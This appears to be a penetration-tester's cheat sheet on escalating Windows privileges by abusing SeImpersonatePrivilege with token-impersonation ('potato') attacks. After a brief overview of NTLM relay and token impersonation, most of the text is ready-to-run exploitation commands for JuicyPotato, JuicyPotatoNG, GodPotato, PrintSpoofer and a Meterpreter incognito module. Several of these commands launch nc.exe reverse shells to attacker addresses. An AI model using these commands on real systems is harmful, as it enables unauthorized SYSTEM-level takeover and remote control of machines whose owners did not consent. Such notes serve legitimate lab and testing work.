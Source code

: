 And SeAssignPrimaryToken lol
#### High-level Overview
1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
3. Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.
```powershell
Privilege Name                          Description 
======================================= ====================================
SeImpersonatePrivilege                  Impersonate a client after authentication
```

#### Exploitation
[Juicy Potato](https://github.com/antonioCoco/JuicyPotatoNG)
```powershell
.\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\ProgramData\nc.exe 10.10.15.155 8443 -e cmd.exe" -t *

.\JuicyPotatoNG.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\ProgramData\nc.exe 10.10.15.155 8443 -e cmd.exe" 
```

[GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20)
```powershell
.\godpotato.exe -cmd "cmd /c whoami"
```

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```powershell
.\PrintSpoofer.exe -i -c cmd
.\PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

Meterpreter
```bash
background
use exploit/windows/local/ms16_075_reflection
set LHOST tun0
set LPORT 1738        
exploit

load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
whoami
```